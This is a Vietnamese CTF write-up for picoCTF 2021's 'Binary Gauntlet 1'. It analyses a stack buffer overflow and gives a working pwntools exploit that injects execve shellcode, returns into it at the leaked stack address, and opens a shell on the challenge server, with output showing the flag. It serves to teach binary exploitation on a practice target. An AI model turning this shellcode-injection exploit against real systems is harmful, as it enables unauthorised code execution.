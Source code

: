# Binary Gauntlet 1
[Tham khảo binary gauntlet 0](../Binary-Gauntlet-0)
## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2a7f79b758fdc250528e5bbc3da169fbf74e4ad3, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
Cũng như gauntlet 0, không khác gì lắm
## Decompile & Disassemble
### Decompile `main`
```c
undefined8 main(void)
{
  char local_78 [104];
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  printf("%p\n",local_78);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_78,local_10);
  return 0;
}
```
Lần này chương trình không có phương thức để đọc flag. Vì vậy chúng ta sẽ dùng shellcode để mở shell và đọc flag. Chương trình cung cấp cho ta địa chỉ của biến local_78, đây sẽ là nơi ta chèn shellcode vào và return về
```c
printf("%p\n",local_78);
```
### Disassemble `main`
```asm
0x0000000000400687 <+0>:	push   rbp
0x0000000000400688 <+1>:	mov    rbp,rsp
0x000000000040068b <+4>:	add    rsp,0xffffffffffffff80
0x000000000040068f <+8>:	mov    DWORD PTR [rbp-0x74],edi
0x0000000000400692 <+11>:	mov    QWORD PTR [rbp-0x80],rsi
0x0000000000400696 <+15>:	mov    edi,0x3e8
0x000000000040069b <+20>:	call   0x400580 <malloc@plt>
0x00000000004006a0 <+25>:	mov    QWORD PTR [rbp-0x8],rax
0x00000000004006a4 <+29>:	lea    rax,[rbp-0x70]
0x00000000004006a8 <+33>:	mov    rsi,rax
0x00000000004006ab <+36>:	lea    rdi,[rip+0x122]        # 0x4007d4
0x00000000004006b2 <+43>:	mov    eax,0x0
0x00000000004006b7 <+48>:	call   0x400560 <printf@plt>
0x00000000004006bc <+53>:	mov    rax,QWORD PTR [rip+0x20098d]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x00000000004006c3 <+60>:	mov    rdi,rax
0x00000000004006c6 <+63>:	call   0x400590 <fflush@plt>
0x00000000004006cb <+68>:	mov    rdx,QWORD PTR [rip+0x20098e]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x00000000004006d2 <+75>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006d6 <+79>:	mov    esi,0x3e8
0x00000000004006db <+84>:	mov    rdi,rax
0x00000000004006de <+87>:	call   0x400570 <fgets@plt>
0x00000000004006e3 <+92>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006e7 <+96>:	add    rax,0x3e7
0x00000000004006ed <+102>:	mov    BYTE PTR [rax],0x0
0x00000000004006f0 <+105>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006f4 <+109>:	mov    rdi,rax
0x00000000004006f7 <+112>:	mov    eax,0x0
0x00000000004006fc <+117>:	call   0x400560 <printf@plt>
0x0000000000400701 <+122>:	mov    rax,QWORD PTR [rip+0x200948]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x0000000000400708 <+129>:	mov    rdi,rax
0x000000000040070b <+132>:	call   0x400590 <fflush@plt>
0x0000000000400710 <+137>:	mov    rdx,QWORD PTR [rip+0x200949]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x0000000000400717 <+144>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040071b <+148>:	mov    esi,0x3e8
0x0000000000400720 <+153>:	mov    rdi,rax
0x0000000000400723 <+156>:	call   0x400570 <fgets@plt>
0x0000000000400728 <+161>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040072c <+165>:	add    rax,0x3e7
0x0000000000400732 <+171>:	mov    BYTE PTR [rax],0x0
0x0000000000400735 <+174>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400739 <+178>:	lea    rax,[rbp-0x70]
0x000000000040073d <+182>:	mov    rsi,rdx
0x0000000000400740 <+185>:	mov    rdi,rax
0x0000000000400743 <+188>:	call   0x400550 <strcpy@plt>
0x0000000000400748 <+193>:	mov    eax,0x0
0x000000000040074d <+198>:	leave  
0x000000000040074e <+199>:	ret  
```
Biến local_78 nằm tại [rbp - 0x70]. Chúng ta cần 0x80 bytes để ghi đè return address. Payload của ta sẽ có dạng "shellcode + padding * (0x78 - độ dài shellcode) + địa chỉ biến local_78"
## Exploit
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = remote("mercury.picoctf.net", 13644)
addr = run.recvline()
run.sendline("Pwned")

addr = int(addr, 16)

payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += b'A' * (0x78 - len(payload))
payload += p64(addr)

run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 13644: Done
[*] Switching to interactive mode
Pwned
$ cat flag.txt
66fa43e73fc405235d4d2aa9da1b257f
```
